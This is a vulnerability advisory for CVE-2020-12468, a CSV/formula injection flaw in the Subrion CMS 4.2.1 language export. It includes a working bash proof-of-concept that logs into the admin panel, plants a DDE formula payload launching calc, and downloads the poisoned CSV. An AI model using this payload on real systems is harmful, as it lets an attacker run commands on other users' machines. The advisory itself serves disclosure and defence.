 ```yaml
---
layout: default
parent: Subrion CMS
title: CVE-2020-12468 - CSV Injection via Export Language 
nav_order: 2
---
```

# Export Language - CSV Injection (aka Excel Macro Injection or Formula Injection)

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the of a phrase value within a language leads to a CSV Injection vulnerability. Using CWE to declare the problem leads to CWE-1236. Impacted is confidentiality. An attacker might be able inject script and macros inside CSVs, and using them to mount further attacks against other users.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12468. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
cookies="Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil phrase"
# Get CSRF Token to ADD a phrase
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/phrases/add/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Add the crafted parameter
res=$(curl -ksi -x "$proxy" -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&key=_csv_injection_&category=common&module=&value%5Ben%5D=%2C%3Dcmd%7C%27+%2Fc+calc%27%21%27A1%27%2C&save=1&goto=list"  "$target/phrases/add/")
if [[ $(echo $res | grep "HTTP/1.1" | grep 302) == "" ]]; then
    echo "Could not add the evil phrase"
    exit 1
fi
echo "[*] Downloading Language"
# Get CSRF Token to Download
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/languages/download/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Downloading the file, showing the issue
curl -ks -x $proxy -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&lang=en&file_format=csv&filename=subrion_4.2.1_en" "$target/languages/download/" | grep "_csv_injection_"
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./csv_injection.sh
[*] Logging in
[*] Adding evil phrase
[*] Downloading Language
_csv_injection_|",=cmd|' /c calc'!'A1',"|",=cmd|' /c calc'!'A1',"|common|en||0
```

As it may be noticed, the value `=cmd|' /c calc'!'A1'` is treated as a standalone cell, wrapped between two commas. If opened in Microsoft Excel, a calculator would spawn.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
*   [https://vel.joomla.org/articles/2140-introducing-csv-injection](https://vel.joomla.org/articles/2140-introducing-csv-injection)



 

